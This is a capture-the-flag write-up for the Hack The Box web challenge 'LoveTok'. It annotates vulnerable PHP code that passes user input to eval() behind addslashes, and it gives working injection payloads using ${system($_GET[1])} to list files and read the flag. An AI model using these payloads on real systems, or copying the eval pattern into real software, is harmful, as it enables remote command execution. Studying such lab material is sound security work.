

# [LoveTok](https://www.hackthebox.com/achievement/challenge/1780054/198)
One of the Challenges of HTB called "LoveTok" (Category: Web).
We were given an IP+Port to a Host and also a full "fake-deployment" of it in a zip-file.

Since this is a Web-Challenge I just assumed that a website would be running on that port, I was right:


The only form of interaction we currently have is this button on the bottom, let's click it:



The page itself didn't change but we can see that we now have a GET-Param in the URL. After fiddelingwith it a little bit and also from the name itself I quickly figured that you can define a Date-Format String for the Output below. After some professional googlin' I also figured out that the backend is most-likely a PHP-Server given how it behaves on certain format-strings (note: this could've been figured out in 0 seconds by just simply having a look at the provided zip-file first :().

Anyhow, since this is now our only form of input it virtually screams "Please hack here" - let's have a look at the provided files:


Two of the files are related to our time-formatting: `TimeController.php` and `TimeModel.php`. I have added the entierty of them below and annotated them using comments:

- `TimeController.php`
    ```php
    <?php
    class TimeController
    {
        // Gets called from the Laravel Router whenever I visit the main webpage. 
        public function index($router)
        {
            // if no format string is provided it defaults to "r", which is why we didn't see any change on the page after the button-click
            // otherwise, our input simply gets stored into this variable
            $format = isset($_GET['format']) ? $_GET['format'] : 'r';

            // the code then creates this modal, so we want to provide a format that exploits the creation of this somehow
            $time = new TimeModel($format);
            return $router->view('index', ['time' => $time->getTime()]);
        }
    }   
    ?>
    ```

- `TimeModel.php`
    ```php
    <?php
    class TimeModel
    {
        public function __construct($format)
        {
            // addslashes is a built-in php function that primitivly escapes some characters
            // this is supposed to sanatize our input
            $this->format = addslashes($format);

            // some random date generation
            [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
            $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
        }

        public function getTime()
        {
            // eval! so definetly some injection-potential here
            // as we can see the eval statement is supposed to take our inputs and store the result of the built-in date function into the $time variable, whose contents we ultimately get to see on the webpage
            eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
            return isset($time) ? $time : 'Something went terribly wrong';
        }
    }
    ?>
    ```

If we wouldn't have the `addslashes` we could very easily just inject anything by simply closing the `date`-call ourselves, appending any call we want and just commenting out the rest. But since this isn't possible (since directly providing `"` gets escaped to `\"`) we have to get a bit more creative.

Doing a quick google-search immediately provides multiple articles as to why `addslashes` does not properly sanatize input and how it can be exploited anyway! [The article I used here](https://swordandcircuitboard.com/php-addslashes-command-injection-bypass/).

To summarize: Although some characters get escaped, we can still run PHP-String interpolation and with that have access to **any variable and function that is currently in scope**. The crafts a concise command that allows us to do any command-injection that we want!

+ Add a second URL-GET-Param that contains our command-injection payload. e.g.: `http://...&1=<anything>`. Note: I thought that the article used a number as the key so that we do not have to quote it to access the value, which would've been a problem since we cannot quote anything. But we can "exploit" PHP's String-Interpolation to bypass the need of quotes (which is very cursed!)
    - ```php
      <?php
      $c = array("foo" => 3);
      var_dump($c[foo]); // does not work, as expected
      var_dump("{$c[foo]}"); // does not work, as expected
      var_dump("$c[foo]"); // WORKS, only $c[] is interpolated and the rests (anything passed inside of []) is interpreted as a string! WTF!
      ?>
      ```
+ Reference the GET-Param in the original variable (which gets passed to the `eval`-function) and wrap it in a `system`-call to run arbitrary code: `system($_GET[1])`

With that we can simply take the example from the article, although I do know from the provided files that there is a flag-file on the server which looks like `/flag*` (with some random characters at the end), so we don't even have to run `ls` to find it, but let's have a look anyway:

+ List files: `?format=${system($_GET[1])}&1=ls%20/`
    
+ Read file content: `?format=${system($_GET[1])}&1=cat%20/flag*`
    

And there we go!
